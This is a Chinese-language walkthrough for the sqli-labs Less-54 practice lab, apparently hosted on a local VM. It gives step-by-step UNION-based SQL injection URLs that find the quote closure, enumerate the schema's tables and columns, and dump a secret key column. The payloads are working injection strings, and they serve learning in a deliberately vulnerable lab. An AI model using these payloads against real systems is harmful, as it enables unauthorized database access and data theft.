

# Less - 54

---

# 通关教程

---

## 1、判断闭合

---

​​

我们需要在10次之内拿到KEY，不然KEY就会重置，就很接近现实里的SQL注入漏洞了，一般CTF的题目也是通过这种方式来考察的

```http
http://192.168.23.128/sqli-labs/Less-54/?id=1
```

​​

```http
http://192.168.23.128/sqli-labs/Less-54/?id=1'
```

​​

没有错误回显，所以只能去猜闭合方式了。这里因为只有十次机会，如果猜解的次数超过了十次，回到sqli-labs的主页面点击Setup/reset Database for labs重置一下sqli-labs就行了。

```http
http://192.168.23.128/sqli-labs/Less-54/?id=1'--+
```

​​

---

## 2、查看当前库

---

```http
http://192.168.23.128/sqli-labs/Less-54/?id=-1' union select 1,2,database()--+
```

​​

---

## 3、查看challenges库下的所有表

---

```http
http://192.168.23.128/sqli-labs/Less-54/?id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='challenges')--+
```

​​​​

---

## 4、查看8o6jkiwiul表下的所有字段

---

```http
http://192.168.23.128/sqli-labs/Less-54/?id=-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='8o6jkiwiul')--+
```

​​

---

## 5、查询secret_XV74字段下的值

---

```http
http://192.168.23.128/sqli-labs/Less-54/?id=-1' union select 1,2,(select group_concat(secret_XV74) from challenges.8o6jkiwiul)--+
```

​​

将我们得到KEY提交到窗口就可以了

​​

---
